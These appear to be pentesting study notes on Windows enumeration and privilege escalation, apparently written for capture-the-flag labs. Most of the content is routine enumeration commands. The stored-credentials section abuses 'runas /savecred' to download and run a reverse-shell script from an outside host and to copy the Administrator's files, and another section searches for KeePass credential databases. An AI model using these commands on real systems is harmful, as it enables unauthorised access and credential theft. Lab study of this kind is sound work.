 - Network information (obtainable by current user):
	- all network interfaces
	  `ipconfig /all`
		- Physical Address
		- DHCP Enabled
		- IPv4 Address
		- Default Gateway
		- DNS Servers
	- routing table
	  `route print`
	- all active network connections
	  `netstat -ano`
		- `-a`: display all active TCP connections and TCP and UDP ports
		- `-n`: disable name resolution
		- `-o`: show PID for each connection
- Installed applications:
	- 32-bit:
	  (PS) `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
	- 64-bit:
	  (PS) `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
	- Note that listed applications may not be complete. Check 32-bit and 64-bit **Program Files** in **C:\\**
	- Pay attention to interesting applications like password managers, 7zip, web server solution stack packages (e.g. XAMPP)
- Running processes:
  (PS) `Get-Process`
	- Relate to output of `netstat -ano`
- List stored credentials:
	`cmdkey /list`
	- Run a command as the stored user:
		- run reverse shell (contents of the script is the reverse shell payload in [[PowerShell and Powercat]])
		  (cmd) `runas /user:ACCESS\Administrator /savecred "powershell -ep bypass"`
		  (cmd) `runas /user:ACCESS\Administrator /savecred "powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.2/admin.ps1')"` 
		- copy and read file from Administrator directory	  (cmd) `runas /noprofile /savecred /user:Administrator "cmd.exe /C copy C:\Users\Administrator\Desktop\root.txt C:\Users\security\root.txt"`
		  (cmd) `runas /noprofile /savecred /user:Administrator "cmd.exe /C copy C:\Users\security\root.txt+C:\Users\security\test.txt C:\Users\security\flag.txt"`

## Hidden in Plain View

Search file:
E.g. (PS) `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
E.g. (PS) `Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`

Cat:
`type [filepath]` or `cat [filepath]`

